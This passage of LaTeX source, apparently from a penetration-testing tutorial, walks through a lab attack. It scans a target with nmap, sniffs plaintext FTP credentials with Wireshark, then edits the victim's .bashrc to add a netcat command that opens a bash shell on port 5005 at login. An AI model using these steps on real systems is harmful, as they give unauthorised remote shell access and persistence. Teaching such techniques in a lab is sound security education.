 			To do this, the first step is to determine what the computer you are targeting is running. 
			This is done using the tool ``nmap'' as below:
			\begin{lstlisting}[style=CLI]
				$ nmap -Sv <Target> -p-
			\end{lstlisting}
			This will give us a list of the services which are running on the server, as well as their names and ports. 
			We will be looking at the FTP server, as it is currently allowing plain text authentication:
			\begin{quote}
				21/tcp    open  ftp         vsftpd 2.3.4
			\end{quote}
			Unlike SFTP, the modern protocol, FTP often allows for plain text authentication, meaning that a person intercepting traffic would be able to read the user name and password. 
			This is how we will begin to gain access to the system. 

			Open the program Wireshark and start a listener on eth1. 
			This is the NIC that is connected to the remote server and that someone may be interacting with it on. 
			Usually this would be done through means such as a \href{https://lanturtle.com/}{LAN Turtle}, 
			However, for the purposes of this demonstration, we will simply be using a local network interface. 

			When the listener is setup, look for a set of TCP and FTP packets to the target from your machine. 
			These will likely be the FTP authentication, so right click and select ``Follow TCP Stream'' to view the messages that were sent. 
			At this point you should have the user name and password. 
			If you do not, find another set of TCP and FTP messages and try again. 
			For more information on using Wireshark, see it's section in Chapter \ref{ch:Forensics}.

			Now that we can alter files on their system, add the following line to their .bashrc.
			This will open a listener on port 5005 which can be interacted with from any computer on the network. 
			\begin{lstlisting}[style=CLI]
				$ nc -l -k -p 5005 -e /bin/bash
			\end{lstlisting}

			Using FTP with the user name and password that you found, run the following commands:
			\begin{verse}
				get .bashrc 
			\end{verse}
			Exit FTP at this point and edit the required line into the .bashrc then run the following FTP command:
			\begin{quote}
				put .bashrc
			\end{quote}
			This will mean that as soon as the msfadmin user logs into their account, a shell will be opened on port 5005. 

